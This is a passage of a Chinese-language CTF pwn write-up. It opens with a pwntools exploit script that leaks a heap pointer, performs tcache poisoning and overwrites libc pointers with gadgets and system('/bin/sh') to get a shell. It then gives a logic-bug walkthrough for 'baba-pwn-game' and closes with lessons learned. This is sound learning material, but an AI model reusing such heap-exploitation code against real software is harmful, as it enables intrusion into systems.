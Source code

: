 ```py
for i in range(7):
    undo()

print_pin()

leak = u64(sc.recv(6).ljust(8, b"\x00"))
print(f"{leak ^ mask=:#x}")

# tcache poisoning

target = 0x00007ffff7e19000 + libc_offset

modify_pin(p64(target ^ mask))

for i in range(6):
    post(b"a" * s1)

ptrs = [0x30 + i for i in range(s1 // 8)]

ptrs[0x13] = 0x000f2d7a + libc_base
ptrs[0x0c] = 0x00121f5a + libc_base
ptrs[0x18] = 0x00052dd4 + libc_base
ptrs[0x17] = 0x0002a8bb + libc_base
ptrs[0x14] = 0x000de39f + libc_base
ptrs[0x1d] = 0x000c535d + libc_base
ptrs[0x20] = 0x7ffff7c50d70 + libc_offset # system
ptrs[0] = int.from_bytes(b"/bin/sh\0", "little") # 感觉这个有说法 可以 mark 一下
ptrs = b"".join(p64(ptr) for ptr in ptrs)
# gdb.attach(sc)
# pause()
post(ptrs)
select(7)
sc.interactive()
```
这个是 ctf-time 上的同款板子，但是针对 pwntools 做了适配 （ctf-time 的 exp 直接跑会寄掉）   

## baba-pwn-game
好 trick 一个题，主要是逻辑洞，给了一个初始位置的溢出一个往下 push 'O' 或者 '@' 的溢出 然后试了用溢出改逻辑，玩了一会还是不太明白   
感觉还是想不到那么深吧    
> 当关卡名称中输入类似 hard.y\x00...\x00 的内容时，可以从关卡中移出。接下来，可以通过让 * 嵌入到墙中，然后将其变成 SINK，目标是破坏墙壁。    
> 移动 O 和 @，使 S is YOU 生效。    
> 移动 S，使 I is YOU 生效。  
> 用 I 推动 I 进入关卡内部，清理下面大量的 O。  
> 如果不先清理 O 而直接使用 O is YOU，可能会因为嵌入墙壁导致游戏结束。  
> 注意关卡外的 I 和内部的 O 的位置，使用 O 推动 * 到墙壁的通路上，破坏通路中的 X。  
> 激活 O is YOU。  
> 让 O 嵌入到数字 6 前的墙中。  
> 控制关卡外的 I，设置 * is STOP and SINK。    
> 移动关卡内的 O，将嵌入墙中的 * 推入墙中。   
> 由于 SINK 的触发条件是该格子被更新，墙会被破坏。   
> 墙破坏后，可以到达数字 6。   
> 据说可以通过推动 I 达到终点，即使终点前的墙是双层的，也能解开关卡。   
（ref from https://hackmd.io/@jj1dzqGjTTGdLiMP-A-F2A/Skk3yJSma#pwn-BABA-PWN-GAME ）
唉 感觉还是想不到那么深吧   

## 总结
可能和国内的题是给一个原语然后看你怎么利用不同（比如 qwb 某题只给了任意地址 free 原语），这些题感觉都是倾向于找一系列漏洞然后综合去利用    
所以可能更需要注意两个方面：
- 在感觉卡思路（特别是像感觉现有条件基本都做不出来）的情况下，一定看看是不是有洞没找到    
- 给源码的题一定要注意一些会报错的条件是什么（比如说 baba-pwn-game 里面的 "you lose" 的条件 然后想一下怎么绕过）    